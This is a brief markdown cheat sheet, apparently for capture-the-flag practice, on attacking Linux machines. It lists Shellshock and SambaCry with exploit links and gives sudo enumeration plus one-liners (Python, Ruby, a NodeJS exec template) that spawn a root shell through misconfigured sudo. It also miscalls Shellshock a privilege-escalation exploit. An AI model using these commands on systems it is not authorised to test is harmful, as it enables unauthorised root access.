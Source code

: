 # Attacking Linux Boxes

### Most Common CVEs used on CTFs
| # | CVE | Description |
| --- | --- | --- |
| 1 | [Shellshock](https://www.exploit-db.com/exploits/34900) | Privilage esculation exploit.  Can be used against CGI-Bin also. |
| 2 | [SambaCry](https://redteamzone.com/EternalRed/) | Also known as EternalRed.  This is the EthernalBlue of Linux SMB File Servers. |

### Post Exploitation - Prev. Esculation

*Enumerate Misconfigured `sudo`*
Run this command to see what programs you has access to using sudo.
```
sudo -l
```

*Exploiting Misconfigured `sudo`*
| # | Language | Commands |
| --- | --- | --- |
| 1 | Python | `sudo python3 -c 'import os; os.system("/bin/bash")'`
| 2 | Ruby | `sudo ruby -e 'system("/bin/bash")'` |
| 3 | NodeJS | `node -e '[...]()'` |

*NodeJS Privilage Exculation Script*
```Javascript
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```
